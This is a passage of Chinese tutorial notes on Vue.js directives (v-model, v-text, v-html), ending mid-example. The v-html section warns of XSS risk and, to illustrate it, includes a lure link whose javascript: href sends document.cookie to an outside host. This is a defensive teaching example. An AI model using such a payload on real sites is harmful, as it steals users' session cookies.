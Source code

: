 ```html
     *   （1）一般应用到表单元素
     *    (2) 默认收集value值，所以v-model:value 可以简写为v-model
     */
    // 创建Vue实例
    new Vue({
        el: '#root',
        data: {
            name: 'World'
        }
    })
</script>
```

#### v-text:

v-text指令：
	1.作用：向其所在的节点中渲染文本内容。
	2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
    3.不能解析标签

```html
<div id="root">
    <h1>你好，{{name}}</h1>
    <h1 v-text="name">你好（被替换）</h1>
    <h1 v-text="str">你好（被替换）</h1>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false // 阻止vue启动生产提示
    const v = new Vue({
        el: '#root',
        data: {
            name: 'YZling',
            str: '<h1>hhh</h1>'
        }
    })
</script>
```

#### v-html:

v-html指令：
		1.作用：向指定节点中渲染包含html结构的内容。
		2.与插值语法的区别：
					(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
					(2).v-html可以识别html结构。
		3.严重注意：v-html有安全性问题！！！！
					(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
					(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<div id="root">
	<h1>你好，{{name}}</h1>
	<h1 v-text="name">你好</h1>
	<h1 v-html="str1">你好</h1>
	<h1 v-html="str2">你好</h1>
</div>
<script type="text/javascript">
	Vue.config.productionTip = false // 阻止vue启动生产提示
	const v = new Vue({
		el: '#root',
		data: {
			name: 'YZling',
			str1: '<h1>hhh</h1>',
			str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
```